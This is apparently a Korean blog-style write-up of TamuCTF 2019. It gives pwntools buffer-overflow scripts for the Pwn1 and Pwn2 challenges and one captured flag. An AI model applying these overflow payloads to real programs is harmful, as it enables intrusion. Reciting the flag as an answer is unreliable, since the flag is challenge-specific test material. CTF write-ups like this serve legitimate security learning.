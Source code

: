```yaml
---
title: "2019 Tamu CTF Writeup"
date: 2019-3-4
tags: [TamuCTF]
categories: [CTF]
---
```


혼자 참여해서 2472팀중에 348등 5061 points로 끝냈고 22문제를 풀었다.

![](https://user-images.githubusercontent.com/32904385/53815727-84b32f00-3fa5-11e9-8e3a-743d37f589a9.png)

# Pwnable

포..넙

### Pwn1

```python
from pwn import *

# p = remote('pwn.tamuctf.com',4321)
p = process('./pwn1')
e = ELF('./pwn1')
shell=0xDEA110C8
p.sendlineafter('What... is your name?','Sir Lancelot of Camelot')
p.sendlineafter('What... is your quest?','To seek the Holy Grail.')
p.recvuntil('What... is my secret?')
payload = ''
payload += 'A'*(0x3b-0x10)
payload += p32(shell)
p.sendline(payload)
p.interactive()
```

**FLAG : gigem{34sy_CC428ECD75A0D392}**

<br />

### Pwn2

```python
from pwn import *

# p = remote('pwn.tamuctf.com',4322)
p = process('./pwn2')
e = ELF('./pwn2')
flag_fun=0x000006d8
p.recvuntil('Which function would you like to call?')
payload = 'A'*30
payload += p32(flag_fun)
p.sendline(payload)
p.interactive()
```
